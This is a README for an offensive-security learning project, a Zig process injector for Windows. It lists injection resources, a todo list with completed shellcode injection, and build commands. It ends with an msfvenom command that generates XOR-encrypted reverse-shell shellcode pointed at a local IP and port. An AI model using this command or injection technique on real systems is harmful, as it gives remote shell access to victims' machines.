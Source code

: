 # ZInjector

Simple Process injector for Windows (for now) written in Zig.

## DISCLAIMER

This is my first project in Zig so the code is pretty mmmm rude(?). The goal is to learn Zig and perform process injection.
I haven't decided what to implement yet, but the first steps are to learn Zig and implement simple process injection.

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/
- https://privdayz.com/tools/shellcode-gen

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [ ] SetWindowHookEx Code Injection
- [ ] ...

## Command:

- Compile: `zig build -Dtarget=x86_64-windows -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
